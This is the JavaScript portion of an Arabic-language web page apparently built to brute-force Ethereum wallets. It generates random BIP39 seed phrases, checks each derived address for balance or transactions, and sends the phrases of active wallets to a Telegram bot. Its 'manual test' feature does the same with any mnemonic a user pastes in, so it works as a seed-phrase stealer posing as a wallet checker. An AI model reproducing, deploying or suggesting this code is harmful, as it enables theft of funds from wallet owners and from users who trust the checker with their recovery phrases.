        // متغيرات العملية
        let isRunning = false;
        let searchInterval = null;
        let stats = {
            totalGenerated: 0,
            activeWallets: 0,
            emptyWallets: 0,
            errors: 0
        };

        // عناصر DOM
        const elements = {
            startBtn: document.getElementById('startBtn'),
            stopBtn: document.getElementById('stopBtn'),
            testTelegramBtn: document.getElementById('testTelegramBtn'),
            clearLogsBtn: document.getElementById('clearLogsBtn'),
            testManualBtn: document.getElementById('testManualBtn'),
            manualMnemonic: document.getElementById('manualMnemonic'),
            manualTestResult: document.getElementById('manualTestResult'),
            searchSpeed: document.getElementById('searchSpeed'),
            maxAttempts: document.getElementById('maxAttempts'),
            totalGenerated: document.getElementById('totalGenerated'),
            activeWallets: document.getElementById('activeWallets'),
            emptyWallets: document.getElementById('emptyWallets'),
            errorCount: document.getElementById('errorCount'),
            progressFill: document.getElementById('progressFill'),
            currentStatus: document.getElementById('currentStatus'),
            logPanel: document.getElementById('logPanel')
        };

        // التحقق من تحميل ethers.js
        function checkEthersLoaded() {
            if (typeof ethers === 'undefined') {
                updateStatus('❌ فشل في تحميل مكتبة ethers.js. يرجى التحقق من اتصال الإنترنت.', 'danger');
                addLogEntry('❌ فشل في تحميل مكتبة ethers.js', 'error');
                return false;
            }
            return true;
        }

        // وظائف توليد العبارات العشوائية
        function getSecureRandomInt(max) {
            const array = new Uint32Array(1);
            window.crypto.getRandomValues(array);
            return array[0] % max;
        }

        function generateRandomBIP39Phrase() {
            const words = [];
            for (let i = 0; i < 12; i++) {
                const randomIndex = getSecureRandomInt(BIP39_WORDLIST.length);
                words.push(BIP39_WORDLIST[randomIndex]);
            }
            return words.join(' ');
        }

        // وظائف المحفظة
        async function mnemonicToAddress(mnemonic) {
            try {
                if (!checkEthersLoaded()) {
                    throw new Error('مكتبة ethers.js غير محملة');
                }
                
                // التحقق من صحة العبارة باستخدام ethers
                if (!ethers.utils.isValidMnemonic(mnemonic)) {
                    throw new Error('عبارة استرجاع غير صالحة');
                }
                
                const wallet = ethers.Wallet.fromMnemonic(mnemonic);
                return wallet.address;
            } catch (error) {
                console.error('خطأ في تحويل العبارة إلى عنوان:', error);
                throw error;
            }
        }

        async function checkWalletBalance(address) {
            try {
                if (!checkEthersLoaded()) {
                    return null;
                }
                
                // استخدام Ethereum API بدلاً من Infura
                const response = await fetch(`${ETHEREUM_API_URL}&module=account&action=balance&address=${address}&tag=latest`);
                const data = await response.json();
                
                if (data.status === '1' && data.result) {
                    const balanceWei = data.result;
                    const balanceEth = ethers.utils.formatEther(balanceWei);
                    return parseFloat(balanceEth);
                } else {
                    throw new Error(data.message || 'خطأ في الحصول على الرصيد');
                }
            } catch (error) {
                console.error('خطأ في التحقق من الرصيد:', error);
                return null;
            }
        }

        async function getTransactionCount(address) {
            try {
                if (!checkEthersLoaded()) {
                    return null;
                }
                
                // استخدام Ethereum API بدلاً من Infura
                const response = await fetch(`${ETHEREUM_API_URL}&module=account&action=txlist&address=${address}&startblock=0&endblock=99999999&page=1&offset=1&sort=asc`);
                const data = await response.json();
                
                if (data.status === '1') {
                    return data.result.length;
                } else if (data.message === 'No transactions found') {
                    return 0;
                } else {
                    throw new Error(data.message || 'خطأ في الحصول على عدد المعاملات');
                }
            } catch (error) {
                console.error('خطأ في الحصول على عدد المعاملات:', error);
                return null;
            }
        }

        async function isWalletActive(address) {
            try {
                const balance = await checkWalletBalance(address);
                const transactionCount = await getTransactionCount(address);
                
                const hasBalance = balance !== null && balance > 0;
                const hasTransactions = transactionCount !== null && transactionCount > 0;
                
                return {
                    isActive: hasBalance || hasTransactions,
                    balance: balance,
                    transactionCount: transactionCount,
                    hasBalance: hasBalance,
                    hasTransactions: hasTransactions
                };
            } catch (error) {
                console.error('خطأ في التحقق من نشاط المحفظة:', error);
                return {
                    isActive: false,
                    balance: null,
                    transactionCount: null,
                    hasBalance: false,
                    hasTransactions: false,
                    error: error.message
                };
            }
        }

        // وظائف Telegram
        async function sendTelegramMessage(message) {
            try {
                const response = await fetch(`${TELEGRAM_API_URL}/sendMessage`, {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify({
                        chat_id: TELEGRAM_CHAT_ID,
                        text: message,
                        parse_mode: 'HTML'
                    })
                });
                
                const data = await response.json();
                if (!data.ok) {
                    console.error('خطأ في إرسال الرسالة:', data.description);
                    return false;
                }
                
                return true;
            } catch (error) {
                console.error('خطأ في الاتصال بـ Telegram:', error);
                return false;
            }
        }

        function formatWalletMessage(mnemonic, address, walletDetails) {
            const timestamp = new Date().toLocaleString('ar-EG', {
                timeZone: 'Africa/Cairo',
                year: 'numeric',
                month: '2-digit',
                day: '2-digit',
                hour: '2-digit',
                minute: '2-digit',
                second: '2-digit'
            });
            
            let message = `🔑 <b>عبارة استرجاع جديدة</b>\n\n`;
            message += `📝 <b>العبارة:</b>\n<code>${mnemonic}</code>\n\n`;
            message += `📍 <b>العنوان:</b>\n<code>${address}</code>\n\n`;
            
            if (walletDetails.balance !== null) {
                message += `💰 <b>الرصيد:</b> ${walletDetails.balance.toFixed(6)} ETH\n`;
            }
            
            if (walletDetails.transactionCount !== null) {
                message += `📊 <b>عدد المعاملات:</b> ${walletDetails.transactionCount}\n`;
            }
            
            message += `\n⏰ <b>الوقت:</b> ${timestamp}`;
            return message;
        }

        async function sendActiveWalletToTelegram(mnemonic, address, walletDetails) {
            try {
                const message = formatWalletMessage(mnemonic, address, walletDetails);
                return await sendTelegramMessage(message);
            } catch (error) {
                console.error('خطأ في إرسال المحفظة النشطة:', error);
                return false;
            }
        }

        // وظائف السجل
        function addLogEntry(message, type = 'info') {
            const timestamp = new Date().toLocaleTimeString('ar-EG');
            const logEntry = document.createElement('div');
            logEntry.className = `log-entry log-${type}`;
            logEntry.innerHTML = `<span class="log-timestamp">[${timestamp}]</span> ${message}`;
            
            elements.logPanel.appendChild(logEntry);
            elements.logPanel.scrollTop = elements.logPanel.scrollHeight;
        }

        // وظائف تحديث الواجهة
        function updateStats() {
            elements.totalGenerated.textContent = stats.totalGenerated;
            elements.activeWallets.textContent = stats.activeWallets;
            elements.emptyWallets.textContent = stats.emptyWallets;
            elements.errorCount.textContent = stats.errors;
            
            const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
            if (maxAttempts > 0) {
                const progress = (stats.totalGenerated / maxAttempts) * 100;
                elements.progressFill.style.width = `${Math.min(progress, 100)}%`;
            }
        }

        function updateStatus(message, type = 'info') {
            elements.currentStatus.textContent = message;
            elements.currentStatus.className = `alert alert-${type}`;
        }

        // الوظيفة الرئيسية للبحث
        async function searchForActiveWallets() {
            try {
                if (!checkEthersLoaded()) {
                    stats.errors++;
                    updateStats();
                    return;
                }

                // توليد عبارة عشوائية
                const mnemonic = generateRandomBIP39Phrase();
                stats.totalGenerated++;
                
                updateStatus(`جاري فحص العبارة رقم ${stats.totalGenerated}...`, 'info');
                addLogEntry(`تم توليد عبارة جديدة: ${mnemonic.substring(0, 30)}...`);
                
                // تحويل العبارة إلى عنوان
                const address = await mnemonicToAddress(mnemonic);
                
                if (!address) {
                    stats.errors++;
                    addLogEntry('خطأ في تحويل العبارة إلى عنوان', 'error');
                    updateStats();
                    return;
                }
                
                // فحص نشاط المحفظة
                const walletStatus = await isWalletActive(address);
                
                if (walletStatus.isActive) {
                    stats.activeWallets++;
                    addLogEntry(`🎉 تم العثور على محفظة نشطة! العنوان: ${address}`, 'success');
                    
                    const telegramSent = await sendActiveWalletToTelegram(mnemonic, address, walletStatus);
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة إلى Telegram', 'error');
                    }
                    
                    updateStatus(`تم العثور على محفظة نشطة! إجمالي المحافظ النشطة: ${stats.activeWallets}`, 'success');
                } else {
                    stats.emptyWallets++;
                    addLogEntry(`محفظة فارغة: ${address.substring(0, 20)}...`);
                }
                
                updateStats();
                
                // التحقق من الحد الأقصى للمحاولات
                const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
                if (maxAttempts > 0 && stats.totalGenerated >= maxAttempts) {
                    stopSearch();
                    updateStatus(`تم الوصول للحد الأقصى من المحاولات (${maxAttempts})`, 'warning');
                    addLogEntry(`تم إيقاف البحث - وصل للحد الأقصى: ${maxAttempts} محاولة`, 'info');
                }
                
            } catch (error) {
                stats.errors++;
                addLogEntry(`خطأ في العملية: ${error.message}`, 'error');
                updateStats();
            }
        }

        // وظائف اختبار العبارات يدويًا
        async function testManualMnemonic() {
            const mnemonic = elements.manualMnemonic.value.trim();
            
            if (!mnemonic) {
                updateStatus('يرجى إدخال عبارة BIP39 للفحص', 'warning');
                return;
            }
            
            try {
                if (!checkEthersLoaded()) {
                    return;
                }

                updateStatus('جاري فحص العبارة...', 'info');
                addLogEntry(`🔍 جاري فحص العبارة يدويًا: ${mnemonic}`);
                
                // إظهار مؤشر التحميل
                elements.testManualBtn.innerHTML = '<span class="loading-spinner"></span> جاري الفحص...';
                elements.testManualBtn.disabled = true;
                
                const address = await mnemonicToAddress(mnemonic);
                
                addLogEntry(`✅ تم تحويل العبارة إلى العنوان: ${address}`);
                
                const walletStatus = await isWalletActive(address);
                
                // تحديث واجهة نتائج الاختبار
                updateManualTestResult(mnemonic, address, walletStatus);
                
                // إضافة سجل
                if (walletStatus.isActive) {
                    addLogEntry(`🎉 العبارة تفتح محفظة نشطة! العنوان: ${address}`, 'success');
                    updateStatus('🎉 العبارة تفتح محفظة نشطة!', 'success');
                    
                    // إرسال المحفظة النشطة إلى Telegram
                    const telegramSent = await sendActiveWalletToTelegram(mnemonic, address, walletStatus);
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة إلى Telegram', 'error');
                    }
                } else {
                    addLogEntry(`❌ العبارة تفتح محفظة فارغة: ${address}`, 'info');
                    updateStatus('❌ العبارة تفتح محفظة فارغة', 'info');
                }
                
                // إعادة تعيين الزر
                elements.testManualBtn.innerHTML = '<span>🔍 فحص العبارة</span>';
                elements.testManualBtn.disabled = false;
                
            } catch (error) {
                updateStatus(`❌ خطأ في فحص العبارة: ${error.message}`, 'danger');
                addLogEntry(`❌ خطأ في فحص العبارة: ${error.message}`, 'error');
                elements.testManualBtn.innerHTML = '<span>🔍 فحص العبارة</span>';
                elements.testManualBtn.disabled = false;
            }
        }

        function updateManualTestResult(mnemonic, address, walletStatus) {
            let resultHTML = '';
            
            if (walletStatus.isActive) {
                resultHTML = `
                    <h4>✅ نتيجة الفحص: المحفظة نشطة</h4>
                    <div class="status active">محفظة نشطة</div>
                    <div class="balance ${walletStatus.balance > 0 ? 'positive' : 'zero'}">
                        💰 الرصيد: ${walletStatus.balance !== null ? walletStatus.balance.toFixed(6) + ' ETH' : 'غير معروف'}
                    </div>
                    <div class="transactions">
                        📊 عدد المعاملات: ${walletStatus.transactionCount !== null ? walletStatus.transactionCount : 'غير معروف'}
                    </div>
                    <div class="wallet-details">
                        <div class="mnemonic">📝 العبارة: ${mnemonic}</div>
                        <div class="address">📍 العنوان: ${address}</div>
                    </div>
                `;
                elements.manualTestResult.className = 'test-result active';
            } else {
                resultHTML = `
                    <h4>❌ نتيجة الفحص: المحفظة فارغة</h4>
                    <div class="status inactive">محفظة فارغة</div>
                    <div class="balance zero">
                        💰 الرصيد: ${walletStatus.balance !== null ? walletStatus.balance.toFixed(6) + ' ETH' : 'غير معروف'}
                    </div>
                    <div class="transactions">
                        📊 عدد المعاملات: ${walletStatus.transactionCount !== null ? walletStatus.transactionCount : 'غير معروف'}
                    </div>
                    <div class="wallet-details">
                        <div class="mnemonic">📝 العبارة: ${mnemonic}</div>
                        <div class="address">📍 العنوان: ${address}</div>
                    </div>
                `;
                elements.manualTestResult.className = 'test-result inactive';
            }
            
            elements.manualTestResult.innerHTML = resultHTML;
            elements.manualTestResult.style.display = 'block';
        }

        // وظائف التحكم
        async function startSearch() {
            if (isRunning) return;
            
            if (!checkEthersLoaded()) {
                return;
            }
            
            isRunning = true;
            elements.startBtn.disabled = true;
            elements.stopBtn.disabled = false;
            
            const speed = parseInt(elements.searchSpeed.value) || 2000;
            
            updateStatus('جاري بدء البحث...', 'info');
            addLogEntry('🚀 تم بدء البحث عن المحافظ النشطة');
            
            // إرسال رسالة البداية إلى Telegram
            const startMessage = `🚀 <b>بدء عملية البحث عن المحافظ النشطة</b>\n\n⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}\n🔍 جاري البحث عن محافظ تحتوي على رصيد أو معاملات...`;
            await sendTelegramMessage(startMessage);
            
            searchInterval = setInterval(searchForActiveWallets, speed);
        }

        async function stopSearch() {
            if (!isRunning) return;
            
            isRunning = false;
            elements.startBtn.disabled = false;
            elements.stopBtn.disabled = true;
            
            if (searchInterval) {
                clearInterval(searchInterval);
                searchInterval = null;
            }
            
            updateStatus('تم إيقاف البحث', 'warning');
            addLogEntry('⏹️ تم إيقاف البحث');
            
            // إرسال رسالة الإيقاف إلى Telegram
            let stopMessage = `⏹️ <b>تم إيقاف عملية البحث</b>\n\n`;
            stopMessage += `📊 <b>الإحصائيات النهائية:</b>\n`;
            stopMessage += `🔢 إجمالي العبارات: ${stats.totalGenerated}\n`;
            stopMessage += `✅ المحافظ النشطة: ${stats.activeWallets}\n`;
            stopMessage += `❌ المحافظ الفارغة: ${stats.emptyWallets}\n`;
            stopMessage += `\n⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            
            await sendTelegramMessage(stopMessage);
        }

        async function testTelegramConnection() {
            updateStatus('جاري اختبار الاتصال بـ Telegram...', 'info');
            addLogEntry('🧪 جاري اختبار الاتصال بـ Telegram...');
            
            const testMessage = `🧪 <b>اختبار الاتصال</b>\n\nتم الاتصال بنجاح مع بوت Telegram!\n⏰ ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            const success = await sendTelegramMessage(testMessage);
            
            if (success) {
                updateStatus('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
                addLogEntry('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
            } else {
                updateStatus('❌ فشل في الاتصال بـ Telegram', 'danger');
                addLogEntry('❌ فشل في الاتصال بـ Telegram', 'error');
            }
        }

        function clearLogs() {
            elements.logPanel.innerHTML = '';
            addLogEntry('تم مسح السجل');
        }

        // ربط الأحداث
        elements.startBtn.addEventListener('click', startSearch);
        elements.stopBtn.addEventListener('click', stopSearch);
        elements.testTelegramBtn.addEventListener('click', testTelegramConnection);
        elements.clearLogsBtn.addEventListener('click', clearLogs);
        elements.testManualBtn.addEventListener('click', testManualMnemonic);

        // التحقق من تحميل ethers.js عند بدء التطبيق
        document.addEventListener('DOMContentLoaded', function() {
            if (checkEthersLoaded()) {
                updateStatus('✅ تم تحميل مكتبة ethers.js بنجاح. جاهز للبدء...', 'success');
                addLogEntry('✅ تم تحميل مكتبة ethers.js بنجاح', 'success');
            }
        });

        // تحديث الإحصائيات عند بدء التطبيق
        updateStats();
    </script>
</body>
</html>
